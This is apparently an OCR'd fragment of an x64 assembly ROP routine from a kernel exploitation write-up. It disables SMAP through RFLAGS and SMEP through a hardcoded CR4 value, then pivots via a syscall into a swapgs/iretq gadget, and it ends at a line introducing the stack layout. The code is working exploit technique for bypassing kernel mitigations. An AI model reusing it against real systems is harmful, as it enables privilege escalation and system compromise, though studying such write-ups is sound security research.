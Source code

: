 ```asm
		and rbx, 0FFh    ; keep interrupts off (was mentioned in one presentation, not 100% sure why its needed, but just in case)
		or rbx, 040000h  ; Disable SMAP!
		push rbx         ; push modified RFLAGS on stack - used by iretq
		push rbx         ; push modified RFLAGS on stack again
		popfq            ; load modified RFLAGS from stack which will disable SMAP from this point onwards
		
		mov rbx, 10h     ; CS usually 0x10 in kernel-mode
		push rbx         ; CS
		mov rax, 070678h ; hardcoded CR4 value that works. Bits 20,21 set to 0. Disables SMEP!
		push rdx         ; arg2 -> cr4_gadget => mov cr4, rax ; add rsp, 0x20 ; pop rbx ; ret

		syscall          ; jumps to first ROP gadget, pointed by LSTAR -> swapgs; iretq
	__rop ENDP
end
```

This is what the stack will look like right before calling the syscall instruction:  